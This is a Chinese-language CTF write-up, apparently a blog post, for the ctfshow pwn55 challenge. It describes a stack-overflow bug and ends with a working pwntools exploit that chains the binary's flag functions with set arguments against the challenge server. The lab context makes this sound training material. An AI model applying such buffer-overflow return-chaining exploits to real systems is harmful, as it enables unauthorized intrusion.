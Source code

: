 ```yaml
---
layout:     post
title:      "Hello 2015"
subtitle:   " \"Hello World, Hello Blog\""
date:       2015-01-29 12:00:00
author:     "Hux"
header-img: "img/post-bg-2015.jpg"
catalog: true
tags:
    - Meta
---
```






## ctfshow pwn55

这个题目主要是对代码的理解

![image-20241119174236173](H:\Helios.github.io\_posts\image\image-20241119174236173.png)

![image-20241119174306540](H:\Helios.github.io\_posts\image\image-20241119174306540.png)

默认有一个ctfshow()函数

点击发现了一个经典的栈溢出漏洞并且这也只是一个

并且在函数栏发现了敏感函数

![image-20241119174647400](H:\Helios.github.io\_posts\image\image-20241119174647400.png)

点击发现这里可以反弹flag

![image-20241119174705604](H:\Helios.github.io\_posts\image\image-20241119174705604.png)

![image-20241119174714037](H:\Helios.github.io\_posts\image\image-20241119174714037.png)

![image-20241119174721381](H:\Helios.github.io\_posts\image\image-20241119174721381.png)

这里发现第一个需要满足一些条件因此我们需要的构造就是要把我们的需要的点都改成true就可以了因此exp：

```python
from pwn import *


# io = process("/home/fofa/pwn")
io = remote("pwn.challenge.ctf.show" ,28277)
elf = ELF("/home/fofa/pwn")

flag1 = elf.sym['flag_func1']
flag2 = elf.sym['flag_func2']
flag = elf.sym['flag']

payload = cyclic(0x2c+4)
payload += p32(flag1)
payload += p32(flag2) +p32(flag)+p32(0xACACACAC)+p32(0xBDBDBDBD)

io.sendlineafter("Input your flag: ",payload)
io.interactive()
```

